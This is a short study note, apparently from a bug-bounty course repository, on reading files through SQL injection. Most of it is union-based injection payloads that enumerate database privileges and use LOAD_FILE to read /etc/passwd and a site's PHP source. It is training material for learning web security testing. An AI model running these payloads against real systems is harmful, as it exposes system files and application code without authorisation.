


# Reading Files

## DB User

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```


## User privileges

```sql
SELECT super_priv FROM mysql.user
```



The query returns `Y`, which means `YES`, indicating superuser privileges.


All of the possible privileges given to our current user,
```sql
test' union select 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

### LOAD_FILE

```sql
test' UNION SELECT 1,LOAD_FILE("/etc/passwd"),3,4-- -
```

```sql
test' UNION SELECT 1,LOAD_FILE("/var/www/html/search.php"),3,4-- -
```

## Procedencia

| Repositorio | Archivo original | Commit de origen |
| --- | --- | --- |
| CBBH | 8- SQLi/2 - Reading Files.md | 284a0a42d23a00f2b47b7460371a517a14cb6261 |

[Índice de categoría](../README.md) · [Inicio](../../README.md)
